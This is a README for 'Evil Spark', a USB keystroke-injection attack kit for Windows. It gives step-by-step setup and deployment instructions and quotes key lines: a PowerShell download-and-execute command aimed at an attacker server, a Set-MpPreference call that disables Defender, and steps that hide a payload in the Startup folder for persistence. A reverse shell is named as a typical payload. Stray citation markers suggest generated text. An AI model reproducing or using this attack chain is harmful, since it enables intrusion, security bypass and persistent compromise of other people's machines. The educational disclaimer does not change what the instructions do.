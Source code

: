 # Evil Spark

**⚠️ Disclaimer: This project is intended for educational and research purposes ONLY. Misuse of this software can lead to serious legal consequences. The author(s) assume no liability and are not responsible for any misuse or damage caused by this project. Always obtain explicit, affirmative consent before conducting any security testing on any system or network.**

## Description
Evil Spark is a project demonstrating a proof-of-concept attack chain using a Digispark-like USB device to automate actions on a target Windows machine. This process aims to download and execute a payload, ultimately establishing persistence. The project integrates a Linux-based setup script for an Apache server to host files, a Digispark sketch for Human Interface Device (HID) emulation, and a PowerShell script for payload deployment and execution.

## Features
* Automated keystroke injection via a Digispark compatible device. [cite: 4]
* Server setup script (`setup.sh`) for easy hosting of necessary files. [cite: 2]
* PowerShell script (`Starter.ps1`) designed to:
    * Attempt to disable Windows Defender's real-time monitoring. [cite: 3]
    * Download the main payload. [cite: 3]
    * Execute the payload. [cite: 3]
    * Establish persistence by placing the payload in the Startup folder. [cite: 3]

## Workflow Overview
The general workflow is as follows:
1.  **Setup:** The attacker uses `setup.sh` on a Linux server to host `Starter.ps1` and the main payload (e.g., `payload.exe`). [cite: 2] The `Evil_Spark.ino` sketch is configured with the server's IP address and uploaded to the Digispark device. [cite: 4]
2.  **Deployment:** The programmed Evil Spark USB device is plugged into the target Windows computer.
3.  **Execution (Automated by Digispark):** The Digispark emulates keyboard input to perform actions such as:
    * Attempting to open and disable Windows Defender. [cite: 4]
    * Opening PowerShell (attempting with administrative privileges). [cite: 4]
    * Commanding PowerShell to download and execute `Starter.ps1` from the attacker's server. [cite: 4]
4.  **Payload Delivery & Persistence (via `Starter.ps1`):**
    * `Starter.ps1` runs on the target machine. [cite: 3]
    * It downloads the main payload (e.g., `payload.exe`, referred to as `ring.exe` within the example `Starter.ps1`) from the server. [cite: 3]
    * The payload is saved to the Windows Startup folder for persistence. [cite: 3]
    * The payload file is hidden. [cite: 3]
    * The payload is executed. [cite: 3]

## Components
1.  **`setup.sh`**:
    * A Bash script for automating the setup of an Apache2 web server on a Debian-based Linux system. [cite: 2]
    * Updates package lists and upgrades existing packages. [cite: 2]
    * Installs `apache2`. [cite: 2]
    * Starts the Apache2 service. [cite: 2]
    * Creates a directory `/var/www/html/tools` to serve files. [cite: 2]
    * Moves specified payload files (defined by `PAYLOAD` and `SHELL_SCRIPT` variables in the script) to the `/var/www/html/tools` directory. [cite: 2]
    * Sets read/write permissions for the owner and read-only for group/others on payload files, and appropriate permissions for the tools directory. [cite: 2]
2.  **`Evil_Spark.ino`** (Digispark Sketch - example based on `Bad_Digi.txt` [cite: 4]):
    * An Arduino sketch designed for Digispark or similar ATtiny85 based USB devices.
    * Simulates keyboard actions (HID attack). [cite: 4]
    * Includes routines to navigate UAC prompts and attempt to disable Windows Defender via keystrokes. [cite: 4]
    * Opens a Run dialog, then PowerShell (attempting administrative privileges), and types a command to download and execute `Starter.ps1` from the attacker's server. [cite: 4]
3.  **`Starter.ps1`**:
    * A PowerShell script intended to be executed on the target Windows machine.
    * Attempts to disable Windows Defender's real-time monitoring using `Set-MpPreference -DisableRealtimeMonitoring $true`. [cite: 3]
    * Defines the path to the user's Startup folder. [cite: 3]
    * Downloads the main executable payload (e.g., `ring.exe` as per the script) from the attacker's server into this Startup folder. [cite: 3]
    * Sets the downloaded file's attributes to Hidden and System (`attrib +h +s`). [cite: 3]
    * Executes the downloaded payload. [cite: 3]
    * Includes a brief sleep and then exits. [cite: 3]
4.  **`payload.exe`** (User-defined payload, example name: `ring.exe` [cite: 3]):
    * This is the final executable that will run on the target machine.
    * **This project does not provide the payload itself.** You must create or provide your own (e.g., a reverse shell, beacon, etc.).
    * Ensure the filename used in `setup.sh` (for the `PAYLOAD` variable) matches the filename `Starter.ps1` attempts to download (e.g., `ring.exe`).

## Prerequisites
* A Linux machine (Debian-based recommended for `setup.sh`) to act as the attacker's server, with `sudo` privileges.
* Digispark ATtiny85 (or compatible) USB development board.
* Arduino IDE or `arduino-cli` for compiling and uploading the `.ino` sketch to the Digispark.
* A Windows target machine for testing **(with explicit, informed consent ONLY)**.
* Your custom `payload.exe` (or `ring.exe`, etc.) file.

## Setup and Usage

### 1. Attacker Server Configuration (`setup.sh`)
1.  Ensure `setup.sh`, your chosen payload executable (e.g., `payload.exe` or `ring.exe`), and `Starter.ps1` are located in the same directory on your Linux server.
2.  Edit `setup.sh`[cite: 2]:
    * Set the `PAYLOAD` variable to the exact filename of your executable (e.g., `PAYLOAD="ring.exe"`).
    * Verify `SHELL_SCRIPT` is set to `Starter.ps1`.
3.  Make `setup.sh` executable: `chmod +x setup.sh`.
4.  Run the script using sudo: `sudo ./setup.sh`.
5.  The script will attempt to display your server's IP address at the end. [cite: 2] Note this IP down.

### 2. `Starter.ps1` Configuration
1.  Open `Starter.ps1` for editing.
2.  Locate the line: `Invoke-WebRequest -Uri "http://192.168.1.109/tools/ring.exe" -OutFile $target`[cite: 3].
3.  Replace `http://192.168.1.109/tools/ring.exe` with the correct URL pointing to your payload on your server (e.g., `http://<YOUR_SERVER_IP>/tools/ring.exe`). Ensure the filename (`ring.exe` or your chosen name) matches what's defined in `setup.sh` and what you intend to use.

### 3. Digispark Programming (`Evil_Spark.ino`)
1.  Open `Evil_Spark.ino` (or your equivalent `.ino` sketch file, based on `Bad_Digi.txt` [cite: 4]) using the Arduino IDE or a text editor.
2.  Find the line responsible for downloading and executing `Starter.ps1`: `DigiKeyboard.print("iex (iwr 'http://<SERVER_IP>/tools/Starter.ps1')");`[cite: 4].
3.  Replace `<SERVER_IP>` with the actual IP address of your Linux server noted in Step 1.5.
4.  If not already done, install the necessary Digispark board drivers and ensure your Arduino IDE is configured for the Digispark board.
5.  Compile and upload the sketch to your Digispark device.

### 4. Deployment
1.  With the attacker's server running and hosting the files, and the Digispark programmed:
2.  Physically plug the Evil Spark USB device into a USB port on the **consenting** target Windows machine.
3.  The Digispark will automatically start typing and executing the pre-programmed commands.

## Important Considerations & Limitations
* **Ethical Use:** Strictly for education. Unauthorized use is illegal.
* **UAC (User Account Control):** The `.ino` sketch includes attempts to navigate UAC prompts using keystrokes like Left Arrow and Enter. [cite: 4] Effectiveness can vary based on target system UAC settings.
* **Antivirus Evasion:** The scripts attempt to disable Windows Defender. [cite: 3, 4] This is a basic attempt and will likely be insufficient against modern, updated antivirus solutions and EDRs. This project is not focused on advanced evasion techniques.
* **Keyboard Layout:** The `DigiKeyboard.h` library typically defaults to a US QWERTY layout. Keystrokes might be incorrect on systems using different keyboard layouts.
* **Timing and Delays:** Delays (`DigiKeyboard.delay()`) in the `.ino` sketch are crucial for reliable execution. [cite: 4] These may need fine-tuning based on the target system's responsiveness.
* **Network Accessibility:** The target machine must have network access to the attacker's server on port 80 (HTTP) to download `Starter.ps1` and the payload. [cite: 2] Firewalls on the server or within the target's network might block this.
* **Error Handling:** The provided scripts have basic error checking but are not exhaustively robust for all possible failure scenarios.
* **Payload Consistency:** Ensure the payload filename is consistent across `setup.sh` (the `PAYLOAD` variable) and `Starter.ps1` (the URI in `Invoke-WebRequest`). [cite: 2, 3]

## License
This project is released for educational purposes. Users are free to modify and use the code responsibly and ethically. No specific license is provided, but it is expected that the software will be used in a manner consistent with the disclaimer. If you adapt or share this project, please maintain the educational context and disclaimers.
